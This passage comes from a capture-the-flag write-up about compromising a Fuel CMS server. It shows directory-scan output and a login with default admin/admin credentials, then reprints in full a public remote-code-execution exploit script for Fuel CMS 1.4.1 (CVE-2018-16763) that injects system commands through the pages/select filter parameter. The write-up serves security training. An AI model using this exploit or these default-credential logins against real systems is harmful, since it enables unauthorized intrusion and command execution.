 ```python
/login_form (Status: 200)
/permissions (Status: 302)
/Users (Status: 302)
/Assets (Status: 302)
/reset (Status: 302)
/migrate (Status: 302)
/Navigation (Status: 302)
/installer (Status: 302)
/Start (Status: 302)
/Logout (Status: 302)
Progress: 15745 / 220561 (7.14%)
```

- We get a bunch of information, but most redirects us back to the `/login` page. However, if go back to the original splash page we found, there are default credentials outlined in the installation instructions. We can try and use the `admin`/`admin` user/password combination to log into the CMS.

![Fuel CMS Dashboard](https://github.com/morganbritt19/CTF-Writeups/assets/60797871/9eeee079-b037-4f03-a18c-830f0221c10f)


## System Hacking
- After doing some digging and trying to upload different files to get a reverse shell, I found that the version of this CMS is 1.4, which has a remote code execution vulnerability. There is a published proof-of-concept exploit that can be found on [Exploit DB](https://www.exploit-db.com/). I did a little more digging and found an improved python script:

```python
# Exploit Title: fuel CMS 1.4.1 - Remote Code Execution (1)
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib

url = "http://target-ip:80"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url, proxies=proxy)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print r.text[0:dup]
```
